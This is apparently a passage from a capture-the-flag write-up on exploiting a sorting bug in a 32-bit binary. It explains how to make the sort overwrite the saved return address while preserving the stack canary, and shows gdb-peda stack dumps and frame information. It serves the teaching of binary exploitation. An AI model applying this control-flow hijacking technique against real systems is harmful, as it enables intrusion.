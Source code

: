 
Essentially what we will do is, we will write a greater value to `heapQt` than `64`, that way it will start sorting data past `ptrArray`. Specifically, we will get it to place an address that we want where the return address is stored at `ebp+0x4`, which will give us code execution. We will also need to make sure the sorting algorithm leaves the stack canary in the same place, otherwise the binary will crash before we get code execution.

```
gdb-peda$ x/152x 0xff8969b8
0xff8969b8:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff8969c8:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff8969d8:	0x00000000	0xff820d84	0x00000000	0xc0370000
0xff8969e8:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff8969f8:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896a08:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896a18:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896a28:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896a38:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896a48:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896a58:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896a68:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896a78:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896a88:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896a98:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896aa8:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896ab8:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896ac8:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896ad8:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896ae8:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896af8:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896b08:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896b18:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896b28:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896b38:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896b48:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896b58:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896b68:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896b78:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896b88:	0x00000000	0xff820d84	0x00000000	0xff820d84
0xff896b98:	0x00000000	0xff820d84	0x00000000	0x00000000
0xff896ba8:	0x00000000	0x00000000	0x00000000	0x0804900a
0xff896bb8:	0xff896bd8	0x1d781100	0x0804c000	0xf7f41000
0xff896bc8:	0xff896bd8	0x08049841	0xff896bf0	0x00000000
0xff896bd8:	0x00000000	0xf7d81e81	0xf7f41000	0xf7f41000
0xff896be8:	0x00000000	0xf7d81e81	0x00000001	0xff896c84
0xff896bf8:	0xff896c8c	0xff896c14	0x00000001	0x00000000
0xff896c08:	0xf7f41000	0xf7f7975a	0xf7f91000	0x00000000
gdb-peda$ i f
Stack level 0, frame at 0xff896bd0:
 eip = 0x8049733 in game; saved eip = 0x8049841
 called by frame at 0xff896bf0
 Arglist at 0xff896bc8, args: 
 Locals at 0xff896bc8, Previous frame's sp is 0xff896bd0
 Saved registers:
  ebx at 0xff896bc0, ebp at 0xff896bc8, esi at 0xff896bc4, eip at 0xff896bcc
gdb-peda$ x/x $ebp-0xc
0xff896bbc:	0x1d781100
```
